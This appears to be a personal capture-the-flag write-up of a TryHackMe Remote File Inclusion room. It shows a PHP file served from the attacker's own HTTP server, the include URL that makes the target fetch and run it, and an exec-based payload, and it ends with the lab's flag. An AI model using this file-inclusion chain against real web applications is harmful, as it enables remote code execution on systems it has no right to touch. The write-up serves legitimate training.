 ```yaml
---
title: Remote Code Execution CTF
weight: 4
---
```


[Link to the exercise](https://tryhackme.com/room/fileinc)

## Goal

Contrary to [[cybersecurity/write-ups/thm/lfi-ctf-1]] and later ones, this CTF is about finding a flag hidden as a `hostname` with [[cybersecurity/knowledge/pentesting/RFI|Remote File Inclusion]].

## Steps

### Recce

I've opened the web app and tried to `include` a bunch of files that might exist already in the filesystem ([[cybersecurity/knowledge/pentesting/LFI]]) - to no avail. Since the challenge is about [[cybersecurity/knowledge/pentesting/RFI]], I've written a simple PHP script that'd echo a string to see if RFI is possible _out-of-the-box_:

```php
<?php
echo "hostname";
?>
```

Since I didn't know where to host that file, I've started `SimpleHTTPServer` with

```sh
python -m http.server ~/Desktop
```

(as I saved my script on the desktop).

Then I tried to `include` it as a query param:

```
http://10.10.55.248/playground.php?file=http://10.10.224.87:8000/hostname.php
```

(where `.55.248` is the attacked machine and `.224.87` is my AttackBox instance).

![[assets/Screenshot 2023-01-04 at 21.18.30.png]]

Good. The string was included.

### Exploitation

Since I've found the vulnerability, I've modified my script a bit to use PHPs' [exec fn](https://www.php.net/manual/en/function.exec.php):

```php
<?php
echo exec("hostname");
?>
```

and refreshed the page.

## Flag

`lfi-vm-thm-f8c5b1a78692`
